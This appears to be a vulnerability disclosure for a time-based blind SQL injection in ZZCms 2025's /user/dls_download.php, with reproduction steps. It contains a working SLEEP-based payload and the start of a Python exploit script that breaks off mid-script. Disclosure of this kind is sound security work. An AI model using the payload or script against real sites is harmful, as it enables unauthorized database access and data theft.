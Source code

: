 # ZZCms 2025 has a SQL Injection vulnerability
##### Vulnerability Location: /user/dls_download.php 
##### Affected Range: ZZCms 2025
##### Vulnerability Cause: dls_download.php contains an SQL injection vulnerability, which enables accounts with ordinary user privileges to access database information through this account.
##### Vulnerability Impact: Obtain database access rights, and even DBA permissions; Obtain data from other databases;
##### Link: http://www.zzcms.net/
# Vulnerability recurrence

First, register an account and select the registration type as: Company. When filling in the company name, keywords such as "biological" should be included

<img width="1920" height="1055" alt="image" src="https://github.com/user-attachments/assets/df1580f0-6d5a-4022-9758-77276fcdd840" />

After successful registration, visit the address: /user/dls_download.php
There is a delay injection vulnerability. As shown in the following figure, the delay is 5 seconds

<img width="1912" height="874" alt="image" src="https://github.com/user-attachments/assets/bf9e18ce-ee97-4d72-8575-7c5261154c48" />

Delay for two seconds

<img width="1912" height="886" alt="image" src="https://github.com/user-attachments/assets/fea672b7-b301-4fe0-a494-3cbffaa80d34" />

Payload：id[]=1,2) AND (SELECT 7945 FROM (SELECT(SLEEP(2)))dhiC) AND (9082=9082

<img width="1900" height="882" alt="image" src="https://github.com/user-attachments/assets/32254e1b-92dd-4d68-b6bb-80ba0784a942" />

It is determined that the length of the database name is 5
Use the script to obtain the specific value of the database name:

<img width="740" height="280" alt="image" src="https://github.com/user-attachments/assets/52ee2409-ddc5-4ae3-8e8e-b8ceb609a701" />

```
import requests
import time

def exploit_time_based_blind_sql():
    # 目标URL
    url = "http://127.0.0.1:8081/user/dls_download.php"
    
    # 请求头
    headers = {
        "Host": "127.0.0.1:8081",
        "sec-ch-ua": '"Not.A/Brand";v="99", "Chromium";v="136"',
        "sec-ch-ua-mobile": "?0",
        "sec-ch-ua-platform": '"Windows"',
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Upgrade-Insecure-Requests": "1",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Sec-Fetch-Site": "none",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-User": "?1",
        "Sec-Fetch-Dest": "document",
        "Accept-Encoding": "gzip, deflate, br",
```